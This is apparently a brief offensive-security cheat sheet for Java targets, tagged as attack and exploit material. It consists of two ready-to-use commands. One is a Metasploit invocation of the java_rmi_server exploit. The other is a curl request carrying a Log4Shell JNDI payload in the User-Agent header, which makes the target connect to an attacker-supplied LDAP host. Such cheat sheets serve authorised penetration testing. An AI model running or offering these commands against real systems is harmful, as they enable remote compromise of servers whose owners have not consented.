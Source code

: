 # Java

% java

## RMI
#plateform/linux #target/remote  #cat/ATTACK/EXPLOIT  
```
msfconsole -x "use exploit/multi/misc/java_rmi_server"
```

## log4shell find
#plateform/linux #target/remote  #cat/ATTACK/EXPLOIT  
```
curl -H 'User-Agent: ${jndi:ldap://<lhost>:<lport>}' <ip>
```
